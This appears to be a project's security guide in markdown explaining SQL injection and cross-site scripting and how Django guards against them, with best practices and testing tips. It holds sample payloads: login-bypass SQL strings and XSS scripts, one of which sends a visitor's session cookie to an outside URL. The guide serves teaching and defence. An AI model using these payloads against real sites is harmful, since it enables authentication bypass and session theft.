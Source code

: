 # SQL Injection: Overview and Application in Django

## What is SQL Injection?

SQL Injection is a type of cyber attack where malicious SQL code is inserted into an input field, which is then executed by the database. This allows attackers to bypass authentication, access, modify, and delete data within the database.

### Common Attack Vectors

1. **User Input Fields**: Attackers exploit input fields like login forms, search boxes, or any other form that interacts with the database.
2. **Cookies**: If server-side scripts do not validate cookie data, attackers can manipulate cookie values for SQL injection.
3. **HTTP Headers**: Attackers can insert SQL commands into HTTP headers like User-Agent or Referer.
4. **URL Parameters**: URLs that directly interact with databases are vulnerable if not properly sanitized.

### Example Attack

Consider a login form where the SQL query is:

```
SELECT * FROM users WHERE username = 'user' AND password = 'pass';
```

An attacker might input:

Username: ```' OR '1'='1```     
Password: ``' OR '1'='1``

This manipulates the SQL to:

```
SELECT * FROM users WHERE username = '' OR '1'='1' AND password = '' OR '1'='1';
```

This query will always return true, allowing the attacker to bypass authentication.

## SQL Injection in Django

Django, a popular web framework, includes several built-in protections against SQL Injection:

- **ORM (Object-Relational Mapping):** Django’s ORM automatically escapes inputs, preventing direct SQL injection.
- **Parameterization:** Queries in Django use parameterization, which ensures that user inputs are treated as data, not executable code.
- **Validation:** Django validates and sanitizes inputs, reducing the risk of SQL injection.

## Best Practices in Our Project

Given that our project uses Django, to maintain these protections on should make sure of the following:

- **Avoid Raw SQL:** Stick to Django ORM. If raw SQL is necessary, always use parameterized queries.
- **Sanitize Input:** Ensure that all user inputs are properly validated and sanitized.
- **Regular Updates:** Keep Django and its dependencies up-to-date to mitigate any known vulnerabilities.

## How to Test for SQL Injection

1. **Manual Testing:** Input common SQL injection payloads (`' OR 1=1 --`) into input fields and observe the behavior.
2. **Automated Tools:** Use tools like SQLMap to automate testing for SQL injection vulnerabilities.
3. **Code Review:** During code reviews make sure to pay attention to areas where raw SQL or user inputs are handled.

# Cross-Site Scripting (XSS): Overview and Application in Django

## What is Cross-Site Scripting (XSS)?

Cross-Site Scripting (XSS) is a type of security vulnerability that allows an attacker to inject malicious scripts (usually JavaScript) into web pages viewed by other users. These scripts can execute in the context of the victim's browser, enabling the attacker to steal information, impersonate the user, or perform actions on their behalf.

## Common Attack Vectors

- **User Input Fields**: Attackers inject scripts into fields like forms or comment sections that are displayed back to users without proper sanitization.
- **URLs**: Scripts can be injected through URL parameters if they are reflected on the page.
- **Third-Party Widgets**: Vulnerable third-party content integrated into a site can become an XSS vector.

## Example Attack

Consider an input form where users can submit a tournament name and description. An attacker might submit the following:

- **Tournament Name:**
```
<script>alert('Busted')</script>
```

If the input is not properly sanitized, this script will execute in the browser of anyone who views the tournament page, displaying an alert box with the message "Busted".

A more dangerous example could be:

- **Tournament Name:** 
```
<script>window.location = 'https://yourBank.com?cookie=' + document.cookie</script>
```

This script could redirect the user to a malicious site and steal their session cookies.

## XSS in Django

Django provides several mechanisms to protect against XSS:

- **Automatic Escaping**: Django templates automatically escape variables to prevent script injection.
- **Safe Markup**: When outputting HTML that includes user input, use `mark_safe` with caution, and only after sanitizing input.
- **Form Validation**: Django’s form validation helps ensure that inputs do not contain harmful scripts.

## Best Practices in Our Project

Given the potential for XSS attacks, ensure the following practices:

- **Input Sanitization**: Sanitize all user inputs before displaying them.
- **Use Django's Built-in Protections**: Rely on Django’s template system to escape variables and prevent direct script injection.
- **Content Security Policy (CSP)**: Implement a strong Content Security Policy to restrict the sources from which scripts can be executed.

## How to Test for XSS

- **Manual Testing**: Insert test scripts like `<script>alert('Test')</script>` in various input fields and check if they are executed.
- **Automated Scanners**: Use tools like OWASP ZAP to identify XSS vulnerabilities.
- **Code Review**: During code reviews, ensure that all dynamic content is properly escaped or sanitized.

